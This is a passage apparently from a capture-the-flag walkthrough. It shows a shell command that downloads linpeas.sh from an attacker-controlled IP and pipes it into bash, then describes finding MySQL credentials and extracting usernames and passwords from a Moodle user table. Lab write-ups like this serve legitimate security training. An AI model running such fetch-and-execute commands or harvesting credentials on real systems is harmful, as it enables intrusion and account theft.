 
We run linpeas. curl is in `/usr/local/bin/`.
```bash
/usr/local/bin/curl http://10.10.14.217:9002/linpeas.sh | /bin/bash
```

We find the credentials of the mysql database:

>![](imgs/20210524-014102.png)


We can log in

>![](imgs/20210524-015535.png)


take username and passwords from mdl_user table

>![](imgs/20210524-015920.png)
